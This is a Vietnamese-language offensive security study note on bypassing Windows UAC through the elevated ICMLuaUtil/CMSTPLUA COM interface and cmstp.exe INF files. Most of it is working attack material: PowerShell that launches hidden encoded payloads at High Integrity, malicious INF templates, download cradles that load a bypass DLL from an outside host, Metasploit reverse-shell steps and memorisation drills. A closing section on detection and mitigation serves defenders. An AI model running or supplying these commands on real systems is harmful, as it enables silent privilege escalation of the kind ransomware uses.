

> **Prerequisites**: [[01-uac-internals|01. UAC Internals]] · [[02-auto-elevation-mechanism|02. Auto-Elevation Mechanism]]
> **Objectives**:
> - Hiểu elevated COM interface khác registry hijack như thế nào về cơ chế
> - Biết ICMLuaUtil COM interface expose gì và tại sao bị lạm dụng
> - Thực hiện CMSTP bypass và ICMLuaUtil bypass
> - Nhận diện COM-based bypass trong context của malware (LockBit, DarkSide)

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - User trong local Administrators group (Medium Integrity shell)
> - UAC không ở Always Notify
> - Windows 7 / 10 / 11 (COM interfaces tồn tại trên tất cả)
> - Không cần drop file hay thao tác registry `HKCU\Software\Classes\`

> [!info] Tại sao COM-based bypass khác về cơ chế?
> Registry hijack: redirect execution flow của một binary.
> COM-based bypass: tìm COM object **đã elevated sẵn** và expose API cho phép chạy arbitrary command — hoàn toàn không cần hijack bất cứ thứ gì, chỉ cần gọi đúng method.

---

## Cơ chế tấn công

### COM Auto-Elevation — Nền tảng

Một số COM objects được đánh dấu với `Elevation\Enabled = 1` trong registry:

```text
HKLM\SOFTWARE\Classes\CLSID\{GUID}\Elevation
    Enabled = REG_DWORD = 1
```

Khi Medium Integrity process tạo COM object này, Windows (qua AppInfo service) **tự động elevate** dllhost.exe để host COM object ở High Integrity. Medium Integrity caller có thể invoke methods trên elevated COM object mà **không có UAC prompt**.

Đây là cơ chế hợp lệ — dùng để một số Windows features cần perform privileged operation mà không pop UAC liên tục. Nhưng nếu COM object đó expose method chạy arbitrary process → attacker có thể lạm dụng.

### ICMLuaUtil COM Interface

**CLSID**: `{6EDD6D74-C007-4E75-B76A-E5740995E24C}`
**Interface**: `ICMLuaUtil`

ICMLuaUtil là COM interface được dùng bởi Connection Manager để thực hiện operations cần elevation. Nó expose method:

```c
ICMLuaUtil::ShellExec(
    LPCWSTR pszFile,          // file/command to execute
    LPCWSTR pszParameters,    // arguments
    LPCWSTR pszDirectory,     // working directory
    DWORD   fMask,
    DWORD   nShow
)
```

`ShellExec` trên elevated COM object → thực thi bất kỳ command nào với High Integrity, không cần prompt.

### CMSTP.exe — Microsoft Connection Manager Profile Installer

`cmstp.exe` là binary có `autoElevate=true` để cài đặt Connection Manager profiles. Khi chạy với file `.inf` được craft đặc biệt, nó thực thi RunPreSetupCommandsSection trong profile.

**CMSTPLUA COM Interface**:
- CLSID: `{3E5FC7F9-9A51-4367-9063-A120244FBEC7}`
- Interface: `ICMLuaUtil`

Cả hai approach đều invoke elevated `dllhost.exe` với COM object host, rồi call `ShellExec`.

### Malware In-The-Wild

COM-based UAC bypass được dùng rộng rãi bởi ransomware:

- **LockBit**: Dùng ICMLuaUtil để elevate trước khi chạy encryption và vô hiệu hóa security tools
- **DarkSide**: Tương tự — elevate để thực thi payload chính với High Integrity
- **Glupteba**: Dùng elevated COM object để nhảy từ High lên System

Điều này làm COM-based bypass đặc biệt quan trọng trong EDR evasion context vì malware đã "battle-tested" technique này ở scale lớn.

---

## Quy trình tấn công

**Môi trường giả định**: Medium Integrity shell, Windows 10/11.

### Method 1 — ICMLuaUtil (PowerShell + COM interop)

**Bước 1 — Tạo elevated COM object từ Medium Integrity**

```powershell
# Tạo ICMLuaUtil COM object
# CLSID của CMSTPLUA: {3E5FC7F9-9A51-4367-9063-A120244FBEC7}
$CLSID = [Type]::GetTypeFromCLSID([Guid]"3E5FC7F9-9A51-4367-9063-A120244FBEC7")
$obj   = [Activator]::CreateInstance($CLSID)
```

> **Expected output**: Không có error. dllhost.exe elevated được spawn trong background.

**Bước 2 — Invoke ShellExec method**

```powershell
# Lấy ICMLuaUtil interface và gọi ShellExec
$obj.ShellExec(
    "cmd.exe",           # file
    "/c start cmd.exe",  # arguments — spawns a new cmd
    "C:\Windows\System32",  # working directory
    0,                   # fMask
    1                    # SW_SHOW
)
```

> **Expected output**: cmd.exe mới xuất hiện ở **High Integrity** — không có UAC prompt.

**Bước 3 — Verify**

```cmd
whoami /groups | findstr "High Mandatory"
whoami /priv | findstr "SeDebugPrivilege"
```

**Full PowerShell block**:

```powershell
# ICMLuaUtil UAC Bypass
$guid  = [Guid]"3E5FC7F9-9A51-4367-9063-A120244FBEC7"
$type  = [Type]::GetTypeFromCLSID($guid)
$obj   = [Activator]::CreateInstance($type)

# Execute payload at High Integrity
$obj.ShellExec(
    "powershell.exe",
    "-nop -w hidden -enc $($b64EncodedPayload)",
    "C:\Windows\System32",
    0,
    0   # SW_HIDE
)
```

### Method 2 — CMSTP.exe với malicious INF file

**Bước 1 — Tạo malicious INF profile**

```powershell
$infContent = @"
[version]
Signature=`$chicago`$
AdvancedINF=2.5

[DefaultInstall]
CustomDestination=CustInstDestSectionAllUsers
RunPreSetupCommands=RunPreSetupCommandsSection

[RunPreSetupCommandsSection]
cmd.exe /c start cmd.exe
taskkill /IM cmstp.exe /F

[CustInstDestSectionAllUsers]
49000,49001=AllUSer_LDIDSection, 7

[AllUSer_LDIDSection]
"HKLM", "SOFTWARE\Microsoft\Windows\CurrentVersion\App Management\ARPCache\CMSTP_Bypass"

[Strings]
ServiceName="CMSTP_Bypass"
ShortSvcName="bypass"
"@

$infContent | Out-File "$env:TEMP\bypass.inf" -Encoding ASCII
```

**Bước 2 — Trigger cmstp.exe với INF**

```cmd
cmstp.exe /au "%TEMP%\bypass.inf"
```

> **Expected output**: cmstp.exe tự elevate, parse INF, chạy RunPreSetupCommandsSection → cmd.exe mới ở High Integrity.

**Bước 3 — Cleanup**

```powershell
Remove-Item "$env:TEMP\bypass.inf" -Force -ErrorAction SilentlyContinue
```

### Method 3 — CMSTP với PowerShell C# (HTB Arkham approach)

HTB Arkham dùng pre-compiled `CMSTP-UAC-Bypass.dll`:

```powershell
# Load CMSTP bypass DLL via reflection (không cần disk nếu dùng download cradle)
$url = "http://10.10.14.1/CMSTP-UAC-Bypass.dll"
$bytes = (New-Object Net.WebClient).DownloadData($url)
[Reflection.Assembly]::Load($bytes) | Out-Null
[CMSTPBypass]::Execute("cmd.exe /c whoami > C:\Users\Public\high.txt")
```

---

## Biến thể & Bypass

### Các CLSID elevated COM khác

Ngoài CMSTPLUA, có nhiều COM object khác có `Elevation\Enabled`:

| CLSID | Interface | Binary |
|-------|----------|--------|
| `{3E5FC7F9-...}` | ICMLuaUtil | cmstp.exe context |
| `{6EDD6D74-...}` | ICMLuaUtil | Connection Manager |
| `{BDB57FF2-...}` | IColorDataProxy | Color Management |
| `{E9495B87-...}` | IDiagnosticProfile | Windows Diagnostics |

Tìm thêm:

```powershell
# Tìm COM objects có Elevation\Enabled = 1
Get-ChildItem "HKLM:\SOFTWARE\Classes\CLSID" |
    ForEach-Object {
        $elevPath = "$($_.PSPath)\Elevation"
        if (Test-Path $elevPath) {
            $val = Get-ItemProperty $elevPath -Name "Enabled" -ErrorAction SilentlyContinue
            if ($val.Enabled -eq 1) {
                Write-Output "$($_.PSChildName) — $elevPath"
            }
        }
    }
```

### Metasploit

```bash
msf > use exploit/windows/local/bypassuac_comhijack
msf > set SESSION <ID>
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf > set LHOST <IP>
msf > exploit
```

### Cobalt Strike BOF

Cobalt Strike Beacon Object File cho CMSTPLUA bypass tồn tại publicly:

```text
beacon> inline-execute cmstp-uac-bypass.o cmd.exe
```

---

## Cây quyết định



---

## Command Cheatsheet

**ICMLuaUtil (PowerShell)**

```powershell
# Quick bypass
$t = [Type]::GetTypeFromCLSID([Guid]"3E5FC7F9-9A51-4367-9063-A120244FBEC7")
$o = [Activator]::CreateInstance($t)
$o.ShellExec("cmd.exe", "", "C:\Windows\System32", 0, 1)
```

**CMSTP INF (CMD)**

```cmd
echo [version] > %TEMP%\b.inf
echo Signature=$chicago$ >> %TEMP%\b.inf
echo [DefaultInstall] >> %TEMP%\b.inf
echo RunPreSetupCommands=Run >> %TEMP%\b.inf
echo [Run] >> %TEMP%\b.inf
echo cmd.exe >> %TEMP%\b.inf
echo taskkill /IM cmstp.exe /F >> %TEMP%\b.inf
cmstp.exe /au %TEMP%\b.inf
del %TEMP%\b.inf
```

**CMSTP PowerShell DLL reflection**

```powershell
[Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("http://IP/CMSTP-UAC-Bypass.dll")) | Out-Null
[CMSTPBypass]::Execute("cmd.exe")
```

**Tìm elevated COM objects**

```powershell
Get-ChildItem "HKLM:\SOFTWARE\Classes\CLSID" | ForEach-Object {
    $ep = "$($_.PSPath)\Elevation"
    if ((Test-Path $ep) -and ((Get-ItemProperty $ep -ErrorAction SilentlyContinue).Enabled -eq 1)) {
        $_.PSChildName
    }
}
```

**MSF**

```bash
use exploit/windows/local/bypassuac_comhijack
set SESSION <ID>; exploit
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày.

**Drill 1 — ICMLuaUtil one-liner từ trí nhớ**
Mục tiêu: nhớ CLSID và 3 dòng PowerShell.

```powershell
$t = [Type]::GetTypeFromCLSID([Guid]"3E5FC7F9-9A51-4367-9063-A120244FBEC7")
$o = [Activator]::CreateInstance($t)
$o.ShellExec("cmd.exe", "", "C:\Windows\System32", 0, 1)
```

Luyện cho đến khi: nhớ được CLSID `3E5FC7F9-9A51-4367-9063-A120244FBEC7` và flow 3 bước.

**Drill 2 — So sánh 3 COM approaches**
Mục tiêu: phân biệt khi nào dùng cái nào.

| Approach | Khi nào dùng | Để lại gì trên disk? |
|---------|-------------|---------------------|
| ICMLuaUtil CreateInstance | PowerShell available, stealth | Không |
| CMSTP + INF | No PowerShell, cần cmd | INF file (tạm thời) |
| CMSTP DLL reflection | Pre-compiled DLL available | Không (nếu fileless load) |

Luyện cho đến khi: đọc scenario → biết ngay dùng approach nào.

**Drill 3 — CMSTP INF template**
Mục tiêu: nhớ structure tối thiểu của INF file bypass.

```ini
[version]
Signature=$chicago$
[DefaultInstall]
RunPreSetupCommands=Run
[Run]
<PAYLOAD>
taskkill /IM cmstp.exe /F
```

Luyện cho đến khi: viết lại template không cần lookup.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **dllhost.exe với elevated COM CLSID**:
> - Sysmon Event ID 1: `Image: dllhost.exe, CommandLine: *3E5FC7F9*`
> - Hoặc CommandLine chứa các COM CLSID có Elevation\Enabled = 1
>
> **Token Security Attribute** (Elastic 7.16+):
> - Process tạo bởi elevated COM có `LUA://HdAutoAp` trong token attributes
> - Child process của dllhost.exe elevated có `LUA://DecHdAutoAp`
>
> **EQL detection**:
> ```
> process where event.action == "start"
>   and process.parent.name : "dllhost.exe"
>   and process.parent.command_line : "*3E5FC7F9*"
>   and process.name : ("cmd.exe", "powershell.exe")
> ```
>
> **CMSTP-specific**:
> - `cmstp.exe` với argument `/au` là suspicious
> - `cmstp.exe` spawn cmd.exe/powershell.exe
> - Sysmon Event ID 1: `ParentImage: cmstp.exe, Image: cmd.exe`
>
> **Microsoft Defender**: Techniques 33, 41, 43, 65 trong UACME được Defender detect
> - Alert: "Behavior:Win32/UACBypassExp" variants

> [!note] Mitigation
> - Tăng UAC lên Always Notify — COM elevation cũng bị block
> - Monitor dllhost.exe spawns với elevated COM CLSIDs
> - Block `cmstp.exe` qua AppLocker/WDAC nếu không cần Connection Manager feature
> - Deploy Elastic Endpoint hoặc Sysmon với token security attribute monitoring

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Arkham** (Retired) | CMSTP UAC bypass là path chính trong intended solution — HTB writeup `0xdf` |
| Local VM | Windows 10/11 | Test cả ICMLuaUtil và CMSTP variant, quan sát dllhost.exe trong Procmon |
| HTB | **Endgame XEN** (Retired) | COM-based bypass chain |
| Local VM | Windows Defender ON | Test detection — Defender flag CMSTP approach |

---

## Field Manual Entry

> [!abstract] Elevated COM — ICMLuaUtil & CMSTP UAC Bypass
> **Điều kiện**: User trong Admins, UAC ≠ Always Notify
> **Ưu điểm**: Không registry write vào HKCU\Software\Classes — ít IOC registry hơn
> **ICMLuaUtil (PowerShell)**:
> ```powershell
> $t = [Type]::GetTypeFromCLSID([Guid]"3E5FC7F9-9A51-4367-9063-A120244FBEC7")
> $o = [Activator]::CreateInstance($t)
> $o.ShellExec("cmd.exe", "", "C:\Windows\System32", 0, 1)
> ```
> **CMSTP (CMD)**: Tạo INF với `[Run]` section + `cmstp.exe /au bypass.inf`
> **MSF**: `use exploit/windows/local/bypassuac_comhijack`
> **Used by**: LockBit, DarkSide ransomware — battle-tested technique
> **Ref**: [[10-elevated-com-icmluautil-cmstp|10. Elevated COM — ICMLuaUtil & CMSTP]]
